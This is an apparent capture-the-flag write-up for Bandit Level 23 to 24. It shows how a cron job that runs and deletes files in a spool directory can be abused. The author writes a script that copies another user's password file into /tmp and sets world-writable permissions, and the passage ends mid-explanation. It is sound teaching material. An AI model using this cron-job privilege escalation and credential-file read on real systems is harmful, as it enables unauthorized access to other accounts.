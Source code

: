 ## Bandit Level 23 → Level 24

{: .box-warning}
**Level Goal:** A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

{: .box-note}
**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
{: .box-note}
**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```sh
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
[@reboot](http://twitter.com/reboot) bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bashmyname=$(whoami)cd /var/spool/$myname
echo \"Executing and deleting all scripts in /var/spool/$myname:\"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        **timeout -s 9 60 ./$i**
        rm -f ./$i
    fi
done
```

From the script, we know that every file in the path of /var/spool/$myname will be executed once and be deleted after 60 seconds. Let us try to write a script to fetch the password from **/etc/bandit_pass/bandit24** and store it to another temporary file. First, we create a workspace to work around …

```sh
bandit23@bandit:~$ mkdir -p /tmp/sec
bandit23@bandit:~$ cd /tmp/sec
bandit23@bandit:/tmp/sec$ touch sec.sh
bandit23@bandit:/tmp/sec$ chmod 777 sec.sh
bandit23@bandit:/tmp/sec$ ls -al sec.sh
-rwxrwxrwx 1 bandit23 root 68 Mar 26 08:09 sec.sh
bandit23@bandit:/tmp/sec$ nano sec.sh
```

Following is the content of the script, please refer it.

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/sec/password
```
Set permission of the password file which allows everyone to write information to the file.
